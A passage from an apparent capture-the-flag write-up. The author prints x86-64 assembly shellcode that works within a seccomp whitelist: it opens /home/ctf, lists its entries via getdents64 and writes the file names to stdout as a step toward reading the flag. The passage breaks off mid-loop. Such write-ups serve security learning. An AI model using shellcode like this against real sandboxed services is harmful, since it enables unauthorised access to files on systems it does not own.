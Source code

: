 which can be interpreted as saying (roughly) "*only allow these system calls: read, write, open, getdents64*".

Now it was time to write some shellcode to execute on the remote server. Eventually, we want to be able to read the flag, which we assume is in a file somewhere on the server, but we don't know the name of that file, or its location. Therefore, we start by listing the contents of the `/home/ctf` directory (we know this directory is where the program is located thanks to the error output from the server). This can be done with the getdents64 (get directory entries 64) syscall.

Here is the exploit I wrote:
```s
.intel_syntax noprefix
    # prologue, not strictly necessary, but allows you to use the rbp register to access local vars
    # (for this part I simply modified code generated by gcc from a C source file)
    push rbp
    mov rbp, rsp
    sub rsp, 0x10020

    # write the string '/home/ctf',0 somewhere on the stack
    mov DWORD PTR [rsp],     0x6d6f682f
    mov DWORD PTR [rsp+0x4], 0x74632f65
    mov DWORD PTR [rsp+0x8], 0x66 # this will also write the terminating zero

    # call open with the appropriate flags
    xor edx, edx        # mode can be zero
    mov rsi, 65536      # O_DIRECTORY | O_RDONLY
    mov rdi, rsp        # const char *filename
    mov rax, 0x2        # open
    syscall

    # call getdents64 with the fd returned by open
    mov rdx, 0x10000    # cnt bytes
    # I decided to just write into stack memory, since we don't need it for anything else :P
    mov rsi, rsp        # buff *
    mov rdi, rax        # fd
    mov rax, 0xd9       # getdents64
    syscall

    # cnt is the number of bytes written, returned by getdents64
    mov QWORD PTR [rbp-0x18], rax  # cnt
    # ptr is an offset into the buffer pointing at the current linux_dent64 structure
    mov QWORD PTR [rbp-0x8], 0     # ptr
    jmp .cond

    # iterate through all linux_dent64 structures
.loop:
    lea    rdx,[rbp-0x10020]
    mov    rax,QWORD PTR [rbp-0x8]
    add    rax,rdx
    movzx  eax,WORD PTR [rax+0x10]
    movzx  eax,ax
    lea    rdx,[rax-0x14]
    lea    rcx,[rbp-0x10020]
    mov    rax,QWORD PTR [rbp-0x8]
    add    rax,rcx
    add    rax,0x13
    
    # write the name of the file to stdout
    mov rdx, rdx
    mov rsi, rax
    mov rdi, 1
    mov rax, 1
    syscall

    # write a newline to stdout
```